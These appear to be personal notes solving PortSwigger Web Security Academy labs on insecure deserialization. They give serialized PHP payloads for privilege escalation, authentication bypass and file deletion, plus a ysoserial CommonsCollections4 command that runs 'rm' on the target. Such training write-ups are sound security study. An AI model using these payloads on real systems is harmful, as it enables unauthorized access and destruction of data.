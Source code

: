 	
	# Lab 01 : Modifying serialized objects
		This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result.
		
	Technique:
		Use Burp's Inspector panel to study the request in its decoded form. Notice that the cookie is in fact a serialized PHP object. The `admin` attribute contains `b:0`, indicating the boolean value `false`.
		
	Exploit:
		In Burp Repeater, use the Inspector to examine the cookie again and change the value of the `admin` attribute to `b:1`. Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.

	Lab 02 : Modifying serialized data types:
	This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result.

	 Technique:
	 Change the Session cookie with base64 like this using decode
	 `"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

	Lab 03: Using application functionality to exploit insecure deserializationhttps://portswigger.net/web-security/deserialization
		
	 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory
	
	Technique: 
	
	`s:11:"avatar_link";s:23:"/home/carlos/morale.txt"`.

	Lab 04: Using application functionality to exploit insecure deserializationhttps://portswigger.net/web-security/deserialization
			
		 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt`
		
		Technique: 
		
		`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`


Lab 05: # Exploiting Java deserializationhttps://portswigger.net/web-security/deserialization with Apache Commons
			
		 This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains
		
		Technique: 
		
		`java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

